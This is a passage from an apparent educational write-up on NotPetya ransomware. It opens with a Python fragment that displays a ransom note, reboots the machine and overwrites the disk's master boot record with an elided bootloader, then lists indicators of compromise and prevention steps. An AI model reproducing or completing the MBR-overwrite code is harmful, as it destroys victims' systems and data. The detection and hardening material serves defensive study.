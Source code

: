 ```python
    
    # Display ransom note
    display_ransom_note()
    
    # Reboot system
    os.system('shutdown /r /t 0')

def overwrite_mbr():
    """Replace MBR with ransomware bootloader"""
    custom_mbr = b"\x33\xc0\x8e\xd0\xbc..."  # Custom bootloader
    
    with open('\\\\.\\PhysicalDrive0', 'r+b') as drive:
        drive.seek(0)
        drive.write(custom_mbr)
```

### Detection & Response

```bash
# IOCs (Indicators of Compromise)

# 1. File hashes
# NotPetya dropper: 027cc450ef5f8c5f653329641ec1fed91f694e0d229928963b30f6b0d7d3a745

# 2. Check for MeDoc software
ls "C:\Program Files\M.E.Doc" 2>/dev/null

# 3. Network indicators
# C2 domains (historical):
# - caffeinamagazine.it
# - petya***.2wcom.net

# 4. Check for suspicious scheduled tasks
schtasks /query /FO LIST /V | findstr /I "perfc"

# 5. Monitor for lateral movement
# Look for:
# - WMI remote process creation
# - PsExec execution
# - Unusual network shares access
```

### Prevention Measures

```bash
# 1. Patch MS17-010
wusa.exe Windows-KB4012212-x64.msu /quiet /norestart

# 2. Disable SMBv1
Set-SmbServerConfiguration -EnableSMB1Protocol $false

# 3. Application whitelisting
# Use AppLocker or similar

# 4. Network segmentation
# Limit lateral movement capabilities

# 5. Backup strategy
# Offline, immutable backups

# 6. Credential hygiene
# Unique passwords, no domain admin for workstations
```

